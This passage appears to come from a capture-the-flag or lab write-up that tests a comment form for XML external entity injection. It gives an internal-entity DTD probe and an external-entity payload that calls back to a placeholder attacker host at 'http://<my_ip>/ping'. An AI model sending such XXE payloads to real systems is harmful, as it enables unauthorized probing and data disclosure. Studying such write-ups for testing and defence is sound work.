 We now know that we have control over this kind of XML structure:

```xml
<comment>
  <name></name>
  <author></author>
  <com></com>
</comment>
```

I attempted to try if XML entities are available by first checking if the parser even allows DTDs:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE funnies [<!ENTITY custom "entity_stuff">]>
<comment>
  <name>H4x0r_5tvFF</name>
  <author>Artideusz</author>
  <com>&custom;</com>
</comment>
```

This was the result:

![](./Assets/Img/internal_entity.png)

We can now try to see if EXTERNAL entites are enabled in this parser:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE funnies 
	[
		<!ENTITY custom SYSTEM "http://<my_ip>/ping">
	]
>
<comment>
  <name>H4x0r_5tvFF</name>
  <author>Artideusz</author>
  <com>&custom;</com>
</comment>
```

The above XML did not cause a ping from the machine, but rather made it crash I think, since I cannot use the form anymore (burp waits a long time for a response, which doesn't come back). 
